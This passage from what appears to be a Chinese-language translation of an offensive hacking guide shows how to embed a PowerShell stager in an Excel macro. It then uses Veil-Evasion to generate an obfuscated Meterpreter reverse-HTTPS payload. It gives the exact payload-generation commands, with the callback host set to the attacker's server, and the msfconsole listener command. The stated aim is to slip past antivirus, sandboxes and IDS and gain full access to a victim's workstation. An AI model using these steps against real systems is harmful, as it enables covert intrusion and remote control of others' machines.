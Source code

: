 height="1.667328302712161in"}

> 我们将在接下来的章节中探讨Empire的一些有趣功能，但与此同时，您可以查看help命令以获得更多。
>
> 为了将此PowerShell脚本嵌入到Excel文档中，我们将使用普通的shell函数，如前所示，或依赖于LuckyStrike。

4)  **VBA中的Meterpreter**

> 我们可以采用另一种方式，例如通过从Metasploit框架部署一个meterpreter
> shell，而不是使用PowerShell
> Empire的stager来获取shell。就我们的直接目的而言，两个stager之间的差异相对较小。他们都有额外的模块来对受感染的工作站执行有趣的操作，但是使用两个stager会增加绕过SPH的反恶意软件解决方案（防病毒，沙箱，IDS等）的几率。
>
> 如前所述，虽然metasploits的有效载荷（包括meterpreter）是反病毒公司所熟知的。他们一旦被目标接收就永远不会发出警报。为了克服这个障碍，我们将使用另一个自动添加多层加密和混淆的工具生成相同的meterpreter有效负载：Veil-Evasion
> [[24]](https://github.com/Veil-Framework/Veil-Evasion)。
>
> 回顾一下，Veil-Evasion将在PowerShell中生成一个模糊的meterpreter
> shellcode，这段代码将连接回Front
> Gun服务器上的常规metasploit监听器，并让我们完全访问工作站。
>
> 精彩。但是我们该怎么做呢？首先，我们需要在Linux上安装Veil-Evasion，并使用经典的apt-get
> install
> veil-Evasion。安装有点时间长，但一旦我们安装完成它是非常直观的。

![](./media/image16.jpeg){width="5.768518153980753in"
height="2.3732830271216097in"}

> list命令显示所有可用的有效负载。我们选择PowerShell
> reverse_https有效负载:

> use powershell/meterpreter/rev_https

> set Proxy Y

> set LHost <FrontGun_IP>

> set LPort 443

> generate

> 这会生成两个文件：

-   执行PowerShell有效载荷的meter.bat文件

-   一个预先配置的metasploit监听器：meter.rc

> 我们需要使用以下命令启动监听器：
```
FrontGun$ msfconsole -r meter.rc
```
> 然后我们可以测试meter.bat文件以确保它正常工作：
